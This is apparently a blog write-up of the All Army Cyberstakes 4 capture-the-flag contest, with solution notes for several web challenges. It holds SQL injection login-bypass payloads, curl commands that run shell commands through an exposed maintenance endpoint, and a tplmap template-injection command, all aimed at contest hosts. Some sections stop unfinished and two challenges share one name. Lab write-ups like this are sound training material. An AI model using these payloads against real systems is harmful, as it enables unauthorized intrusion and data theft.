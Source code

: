```yaml
---
layout: post
title: "All Army Cyberstakes 4 April 2020"
categories: CTF
tags: CTF
---
```


The All Army Cyberstakes 4 took place in April 2020, and it was an event full of exciting challenges that put the participants' cybersecurity skills to the test. The competition featured a range of challenges, each with different levels of difficulty and unique requirements. In this post, we'll take a closer look at some of the challenges that participants had to tackle during the competition.

One of the challenges that participants had to overcome was called "More Out of Site." This challenge required participants to use Firefox Dev Tools to inspect a website and find the JavaScript code responsible for checking if the flag entered by the user was correct. Once they found the code, they were able to identify the correct flag and submit it for points.

Another challenge, "No Escape," required participants to break into a "secure vault" by changing a value in the code and logging in with specific credentials. The challenge also involved a bit of social engineering, as participants had to figure out the correct input to generate the correct hash.

"Blame it on the Temp" was another challenge that required participants to use their hacking skills to identify vulnerabilities in a web application. The challenge involved identifying a template injection vulnerability in a site running on Jinja2 and accessing the admin page to retrieve the flag.

"Cookie Monster" was another challenge that involved hacking into a web application. This time, participants had to exploit a vulnerability in a cookie-generating script to manipulate the value of the cookie and access the admin page.

Overall, the All Army Cyberstakes 4 competition was a great opportunity for participants to test their cybersecurity skills and learn new techniques for identifying and exploiting vulnerabilities in web applications. The challenges were varied and provided a great platform for participants to showcase their skills and knowledge. Whether you're an experienced hacker or just starting in cybersecurity, these challenges offer a fun and engaging way to test your abilities and learn new techniques.

Below are some clever examples
More Out of Site - Points: 10 - (Solves: 367)
Well that was embarrassing... Who knew there was more to a web site then what the browser showed? Not to worry, we're back with a new and improved Javascript version! http://challenge.acictf.com:12077
Use firefox dev tools to inspect site saw http://challenge.acictf.com:12077/flag_checker.js
function check_flag() { var flag = document.forms["flagChecker"]["flag"].value; var submit_button = document.forms["flagChecker"]["submit"]; var status_field = document.getElementById("status"); if (flag == "ACI{client_side_fail_6094fff3}") { submit_button.disabled=false; status_field.innerHTML = ""; } else { submit_button.disabled=true; status_field.innerHTML = "error: does not match flag"; } }

Most Out of Site - Points: 20 - (Solves: 280)
http://challenge.acictf.com:2342/
Inspect the cookies
ACI{cookies_fail_too_d0063673}

No Escape - Points: 60 - (Solves: 36)
Let's see if you can break into our secure vault.
http://challenge.acictf.com:55629/admin

theunbreakablevault@thevault.com

Change this value to one I own

Then Login with creds

Correct password! Flag is: ACI{790b898dfd9058c4} 


No Escape - Points: 60 - (Solves: 36)
Since in-person events are currently banned, some magician we've never heard of is trying to sell us on the idea of a "digital" magic show where the magician logs in using an impossible password. For added assurances, one lucky audience member is able to login and see the hash of the password as proof the password is impossible. We're willing to bet the secret to this magic trick is not all that complicated. http://challenge.acictf.com:5971

Entering ' into user and pass spit out

SELECT username FROM users WHERE username = ''' AND pwHash = '265fda17a34611b1533d8a281ff680dc5791b0ce0a11c25b35e11c8e75685509'

Next I logged in as admin with user and pass admin' --
Which resulted in 
Welcome admin! The "hash" for account 'houdini' is 'Not a hash'.

User: houdini' AND 1=0 UNION ALL SELECT 'houdini', '81dc9bdb52d04dc20036dbd8313ed055'
Pass: 1234

SELECT username FROM users WHERE username = 'houdini' AND 1=0 UNION ALL SELECT 'houdini', '81dc9bdb52d04dc20036dbd8313ed055'' AND pwHash = '03ac674216f3e15c761ee1a5e255f067953623c8b388b4459e13f978d7c846f4'

User: houdini'--
Pass: houdini'--
ACI{82eed9231b8c4ce90aea653b6e5}

good authentication systems do password hashing before storing the the password in the database.
so they take the password and do some sha256  or some other hash algorithm (PBKDF2) on the password and store the hash in the database
if the hash is already Not a hash, then you would have to figure out what input would generate that hash?  \<Spolier>, there’s no possible input that will generate a hash with spaces.

DENIED - Points: 75 - (Solves: 52)
http://challenge.acictf.com:62914/index.html#
http://challenge.acictf.com:62914/robots.txt#
http://challenge.acictf.com:62914/maintenance_foo_bar_deadbeef_12345.html#

Inside source
 \<h1>Maintenance\</h1>
        <!--
            Disabled for being insecure... oops!
        <form action="/secret_maintenance_foo_543212345", method="POST">
            <input name="cmd"/>
        </form>-->
        \<p>Result: Run a command! \</p>
There are many ways to solve this
 a simple curl command will solve this challenge
curl -X POST --data cmd=ls http://challenge.acictf.com:62914/secret_maintenance_foo_543212345
curl -X POST --data cmd="cat flag.txt" http://challenge.acictf.com:62914/secret_maintenance_foo_543212345

We can also remove the comments in the HTML on the webpage
This reveals the box we can run commands, this screenshot is after I ran ls
Flag ACI{dd1cfae8b197bdd737f904e466f}

Blame it on the Temp - Points: 150 - (Solves: 3)
http://challenge.acictf.com:21144

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

Looks like this site is running Jinja2 also give the path /app/templates

Also by selecting Not-Default as the template we can see a CSRF token that we can change to text
csrf_token=IjhlNjAyYmJmZDM1YmJkOTE3MmRjNzU5YzQwMGU0NWIxYWQ5ZmZkMDMi

python tplmap.py -u 'http://challenge.acictf.com:21144/csrf_token=IjhlNjAyYmJmZDM1YmJkOTE3MmRjNzU5YzQwMGU0NWIxYWQ5ZmZkMDMi/*'



Cookie Monster - Points: 200 - (Solves: 0)
Lets make some yummy cookies! Maybe you can even find some extra tasty ones: http://challenge.acictf.com:8837.
The admin can see the flag on the admin page.You can control the value so select all you want.If you need an endpoint for a callback, postb.in is a useful resource. You could also run a simple server on the competition's shell server using a command like python -m SimpleHTTPServer.

http://challenge.acictf.com:8837/cookie/df419f36-4bce-4bd6-98a2-81377bd6ec86#








